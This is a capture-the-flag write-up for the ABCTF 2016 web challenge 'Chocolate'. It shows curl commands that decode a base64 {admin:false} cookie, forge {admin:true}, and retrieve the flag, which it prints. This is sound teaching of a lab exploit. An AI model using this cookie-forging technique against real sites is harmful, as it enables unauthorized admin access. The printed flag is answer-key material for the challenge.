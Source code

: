 _[<<< Return to ABCTF 2016 tasks and writeups](/2016-abctf)_
# Chocolate (Web Exploitation, 50 points)

>If you could become admin you would get a flag. [Link](http://yrmyzscnvh.abctf.xyz/web3/)

The website says that we are not admin, let's see why.

![Screenshot from the website yrmyzscnvh.abctf.xyz/web3](chocolate.png)

```console
root@blinils:~/abctf-2016# curl -D- http://yrmyzscnvh.abctf.xyz/web3/

HTTP/1.1 200 OK
[...cut...]
X-Powered-By: PHP/5.5.9-1ubuntu4.17
Set-Cookie: coookie=e2FkbWluOmZhbHNlfQ%3D%3D
[...cut...]

<html>
[...cut...]
You're not an admin. Please leave this site.
[...cut...]
</html>
```

It seems that the coookie (with three 'o') plays a key role in this challenge.

```console
root@blinils:~/abctf-2016# alias urldecode='python -c "import sys, urllib as ul; \
> print ul.unquote_plus(sys.argv[1])"'
root@blinils:~/abctf-2016# urldecode e2FkbWluOmZhbHNlfQ%3D%3D
e2FkbWluOmZhbHNlfQ==
root@blinils:~/abctf-2016# urldecode e2FkbWluOmZhbHNlfQ%3D%3D | base64 -d
{admin:false}
```

Indeed we need to modify the cookie in order to have the flag.

```console
root@blinils:~/abctf-2016# echo -n {admin:true} | base64
e2FkbWluOnRydWV9
root@blinils:~/abctf-2016# curl -D- http://yrmyzscnvh.abctf.xyz/web3/ -H 'Cookie: coookie=e2FkbWluOnRydWV9'
<html>
[...cut...]
Wow! You're an admin, maybe. Well anyway, here is your flag, ABCTF{don't_trust_th3_coooki3}
[...cut...]
</html>
```
